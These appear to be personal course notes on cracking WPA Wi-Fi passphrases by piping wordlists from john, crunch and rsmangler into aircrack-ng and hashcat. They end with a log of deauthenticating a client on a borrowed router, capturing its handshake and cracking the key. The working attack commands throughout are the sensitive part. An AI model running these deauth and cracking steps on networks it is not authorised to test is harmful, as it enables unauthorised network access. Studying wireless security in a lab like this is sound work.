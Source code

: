 # Using Password Crackers with Aircrack-ng

1. Running Aircrack-ng with John

`john --wordlist=/usr/share/john/password.lst --rules --stdout | aircrack-ng -e wifu -w - ~/wpa-01.cap`

`-w -` signifies using standard input (STDIN)

John allows mangling of password list which allows appending of additional characters which did not appear in the wordlist.

1. Running Aircrack-ng with Crunch

crunch usage:

`crunch <min-length> <max-length> abc123`

doing so will generate a wordlist with all possible combination for a passphrase of min-length to max-length. the 3rd input field is to limit the possible characters which is a, b, c, 1, 2, 3 

- can also use `-t` to specify pattern. different symbols used define types of character to use
    - `@` represents lowercase char OR predefined set
    - `,` represents uppercase char
    - `%` represent numbers
    - `^` represents symbols
    
    i.e. `crunch 11 11 -t password%%%` will generate a password length of 11 with preset password and additional 3 numbers
    

![Untitled](Untitled%2028.png)

- could also do the same with this command
    
    `crunch 11 11 01234567890 -t password@@@`
    
    01234567890 represents predefined set using `@@@` instead of `%%%`
    

- can also use `-p`  to generate UNIQUE words from character set or a set of whole words
    - still need to provide min and max length, but those are ignored
    
    `crunch 1 1 -p abcde12345`
    
    ![Untitled](Untitled%2029.png)
    
- can also use for multiple words to generate a list of unique words
    
    `crunch 1 1 -p dog bird cat`
    
    ![Untitled](Untitled%2030.png)
    

- can be combined from the above two like so
    
    `crunch 5 5 -t ddd%% -p dog bird cat`
    
    *the 5 represents the 5 characters in ddd%%, each d represents either dog, bird or cat*
    
    ![Untitled](Untitled%2031.png)
    

- uses defined characters ‘a’, ‘A’, ‘D’, ‘E’ and assigned to each`@` character
    
    `crunch 5 5 aADE -t ddd@@ -p dog cat bird`
    

No point in storing these wordlist in file since aircrack-ng can take in password file in STDIN using `-w -`

- using this command
    
    `crunch 11 11 -t password%%% | aircrack-ng -e wifu crunch-01.cap -w -`
    
1. Running Aircrack-ng with RSMangler

Create a text file with the specified guessed words

`echo bird > password.txt`

`echo cat >> password.txt`

`echo dog >> password.txt` 

`rsmangler --file password.txt --output mangled.txt`

this command will save all combination of the words in the password text file and then mangled them into a new file 

`cat password.txt | rsmangler --file -`

`rsmangler --file password.txt --min 12 --max 13` `| aircrack-ng -e wifu rsmangler-01.cap -w -`

doing the above will mangled the text file with a minimum of 12 to 13 characters then piping it to aircrack-ng to process the STDIN as password file

1. Running Hashcat for benchmarking
- can also run `hashcat -I` to check cpu specs

`hashcat -b -m 2500`

*mode 2500 indicates WPA-EAPOL-PBKDF2 which is the protocol for wireless passwords*

To crack using Hashcat

`hashcat -m 2500 output.hccapx /usr/shar/john/password.lst`

![Untitled](Untitled%2032.png)

- Hash of nonce & BSSID: 2bce49121ecaccecf724cda86ea8c322
- BSSID: 340804093d38
- Client MAC Addr: 00184d1da81f
- SSID: wifu
- Passphrase: password

using john’s password list to crack the generated *cap2hccapx file*

- cap2hccapx file can be generated using this command
    - `/usr/lib/hashcat-utils/cap2hccapx.bin wifu-01.cap output.hccapx`
    - takes in input of the pcap file and output to a file

11/June/2024 - Borrowed a router from SAF to try out.

- connected my phone to the AP
- run `airmon-ng` on the same channel as the AP and followed the instruction from previous doc
    - `sudo airmon-ng start wlan0 1`
- ran monitoring (`airodump-ng`) specifying the AP SSID and MAC-addr as well as channel
    - run monitoring regularly to scan for surrounding AP
    
    ![Untitled](Untitled%2033.png)
    
- Then once target is found, HONE IN ON THAT SHIT BRUH
    - `sudo airodump-ng -c 1 -w wpa --essid NETGEAR40 --bssid C8:9E:43:E4:8B:FE wlan0mon`
- send deauth packets using `aireplay-ng` and it managed to send 4 way handshake!!!!
    - `sudo aireplay-ng -0 1 -a C8:9E:43:E4:8B:FE -c 26:75:0D:AE:17:E0 wlan0mon`
- then crack the packet using aircrack-ng
    - `crunch 13 13 -t luckydaisy%%% | sudo aircrack-ng -e NETGEAR40 wpa-01.cap -w -`

WTF IT WORKS?!?!!?!?!!!!!!

![Untitled](Untitled%2034.png)